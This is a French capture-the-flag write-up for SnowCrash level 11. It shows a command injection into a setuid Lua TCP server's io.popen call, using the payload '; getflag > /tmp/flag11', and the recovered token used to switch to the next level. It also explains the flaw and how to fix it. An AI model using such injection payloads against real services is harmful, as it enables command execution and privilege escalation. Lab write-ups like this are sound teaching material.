 # README - Exploitation du script level11.lua

## Étapes suivies pour obtenir le Flag11

### 1. Identification des fichiers

Le répertoire contient un fichier principal :

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

- **`level11.lua`** : Un script Lua exécutable avec permissions `setuid` et `setgid`, s'exécutant avec les privilèges de l'utilisateur `flag11`. Il implémente un serveur TCP simple.

### 2. Analyse du script `level11.lua`

En lisant le script avec `cat level11.lua`, on observe :

- Il crée un serveur TCP sur `127.0.0.1:5151` et attend une entrée utilisateur (`pass`).
- La fonction `hash(pass)` exécute : `io.popen("echo "..pass.." | sha1sum", "r")` pour hacher le mot de passe et le comparer à `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`.
- Le serveur tourne déjà en arrière-plan avec les droits de `flag11` (vérifiable avec `netstat -tlnp | grep 5151`).

Test simple :
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: test
Erf nope..
```

### 3. Exploitation de la vulnérabilité

La vulnérabilité est une injection de commande dans `io.popen`, car `pass` est concaténé directement sans échappement. On peut injecter une commande après un `;` (séparateur shell).

- Le serveur a les privilèges de `flag11`, donc on exécute `getflag` pour capturer son output.

### 4. Injection de commande

Connecte-toi au serveur et injecte :
```bash
nc localhost 5151
Password: ; getflag > /tmp/flag11
Erf nope..
```

Lis le résultat :
```bash
cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

### 5. Passage à l'utilisateur suivant

Utilise le mot de passe récupéré pour passer directement à `level12` :

```bash
level11@SnowCrash:~$ su level12
Password: fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```

### Vulnérabilité expliquée

Le script Lua utilise `io.popen` pour exécuter une commande shell avec l'input utilisateur non sanitizé : `"echo "..pass.." | sha1sum"`. En injectant `; commande_malveillante`, le shell exécute la commande supplémentaire. Les permissions `setuid/setgid` élèvent les privilèges à `flag11`, permettant d'exécuter `getflag`. Une correction impliquerait d'échapper l'input (ex. : quotes) ou d'éviter `popen` pour du hashing (utiliser une lib Lua native comme LuaSHA).
